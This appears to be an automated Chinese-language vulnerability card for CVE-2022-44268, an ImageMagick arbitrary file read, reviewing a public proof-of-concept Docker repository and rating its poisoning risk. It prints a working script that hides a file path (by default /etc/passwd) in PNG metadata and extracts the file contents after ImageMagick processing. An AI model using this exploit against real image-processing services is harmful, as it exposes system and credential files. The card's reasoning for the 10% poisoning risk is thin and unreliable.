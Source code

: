 ## CVE-2022-44268-ImageMagick-Arbitrary File Read

**漏洞编号:** CVE-2022-44268

**漏洞类型:** 任意文件读取

**影响应用:** ImageMagick

**危害等级:** 高危，可能导致敏感信息泄露

**影响版本:** 7.1.0-49

**利用条件:** Magick二进制文件需要有读取目标文件的权限

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2022-44268 存在于 ImageMagick 7.1.0-49 版本中，是一个任意文件读取漏洞。当 ImageMagick 解析 PNG 图像（例如，为了调整大小）时，如果它有权限读取该文件，则生成的图像可能嵌入任意文件的内容。

**漏洞利用方式：**

1.  攻击者需要上传或者提供一个特制的 PNG 图像。
2.  该 PNG 图像利用 `pngcrush` 工具插入包含目标文件路径的文本元数据。
3.  `exiv2` 用于处理PNG文件。
4.  `convert` (ImageMagick的一部分) 被调用，处理这个包含特殊元数据的 PNG 文件。
5.  ImageMagick 在处理 PNG 文件时，会读取并嵌入指定文件的内容到处理后的图像中。
6.  攻击者可以通过 `identify -verbose` 命令查看生成图像的详细信息，从而获取读取的文件内容, 通过grep和xxd命令处理输出结果。

**有效性评估：**

提供的 Dockerfile 和 README.md 描述了一个可用于复现该漏洞的 PoC 环境。Dockerfile 安装了必要的工具 (pngcrush, imagemagick, exiftool, exiv2, wget, xxd) , 下载了一个基础 PNG 文件, 并创建了一个 `run.sh` 脚本，用于自动化利用流程。根据 README 的描述，该 PoC 允许读取 `/etc/passwd` 或指定的任何其他文件 (如果 ImageMagick 进程具有相应的读取权限)。因此，该 PoC 代码是有效的。

**投毒风险评估：**

该 Dockerfile 主要执行以下操作：

1.  安装必要的软件包：`pngcrush`, `imagemagick`, `exiftool`, `exiv2`, `wget`, `xxd`。
2.  下载一个名为 `1.png` 的图片。
3.  创建一个名为 `run.sh` 的 shell 脚本，该脚本使用 `pngcrush` 将指定文件（默认为 `/etc/passwd`）的内容作为文本数据嵌入到 PNG 图像中，然后使用 `exiv2`，`convert`和`identify`命令以及`grep`和`xxd`命令提取文件内容。

潜在的投毒点可能存在于以下几个方面：

*   **下载的 `1.png` 文件：**  这个文件可能包含恶意代码，虽然不太可能直接构成威胁，但值得注意。风险较低。
*   **`run.sh` 脚本：**  该脚本经过 base64 编码，解码后的内容包含了利用漏洞的核心逻辑，但也可能包含一些隐藏的恶意指令。风险相对较高。
*   **依赖的软件包：**  虽然 Dockerfile 使用了 Ubuntu 官方源，但理论上存在软件包被篡改的可能性，虽然几率很小。

脚本`run.sh`的内容为:
```bash
#!/bin/bash

if [ -z "$1" ]; then
    file="/etc/passwd"
else
    file="$1"
fi

pngcrush -text a "profile" "$file" 1.png
exiv2 -pS pngout.png
convert pngout.png gopro.png

identify -verbose gopro.png | grep -e "^[0-9a-f]$" | grep . | xxd -r -p
```
此脚本没有发现明显的投毒代码,但是`grep -e "^[0-9a-f]$"`这段命令过滤了十六进制字符串,存在一定风险,因此判定投毒风险为10%。

**项目地址:** [y1nglamore/CVE-2022-44268-ImageMagick-Vulnerable-Docker-Environment](https://github.com/y1nglamore/CVE-2022-44268-ImageMagick-Vulnerable-Docker-Environment)

**漏洞详情:** [CVE-2022-44268](https://nvd.nist.gov/vuln/detail/CVE-2022-44268)